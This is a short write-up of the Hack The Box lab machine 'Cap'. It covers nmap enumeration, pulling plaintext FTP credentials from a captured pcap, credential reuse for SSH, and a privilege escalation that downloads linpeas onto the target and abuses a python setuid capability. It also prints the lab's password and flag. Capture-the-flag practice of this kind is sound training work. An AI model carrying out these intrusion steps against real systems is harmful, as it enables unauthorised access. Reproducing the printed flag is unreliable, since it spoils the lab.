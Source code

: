 # IP: 10.10.10.245
### [Challenge](https://app.hackthebox.com/machines/Cap)

- # ENUM
	- nmap (`nmap -sV -A -p- -T4 10.10.10.245`)
		- ```PORT   STATE SERVICE VERSION
			21/tcp open  ftp     vsftpd 3.0.3
			22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
			| ssh-hostkey: 
			|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
			|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
			|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
			80/tcp open  http    Gunicorn
			|_http-server-header: gunicorn
			|_http-title: Security Dashboard
			Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_keranel```
	- dirbuster:
		- /ip
		- /netstat
		- /static/js/.......
		- /data/1


- # EXPLOITATION
	- There's a directory (/data) that stores all the user's scans
	- Sus scan: 0.pcap
		- It contains FTP credentials
			- username: `nathan`
			- password: `Buck3tH4TF0RM3!`
	- Connect via FTP (`ftp -p 10.10.10.245 21`)
	- `get user.txt`
		- 7f9fad818ecfc0bd8105acd7fd18e46b
	- The same credentials work with SSH! (ssh nathan@10.10.10.245)

- # PRIVILEGE ESCALATION
	- Run linpeas.sh (host python server -> wget linpeas.sh in victim's machine /tmp) 
		- /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
	- python3.8 has capabilities! Let's see on GTFOBins
		- /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
	- Let's execute this command on the terminal
		- We're root now!


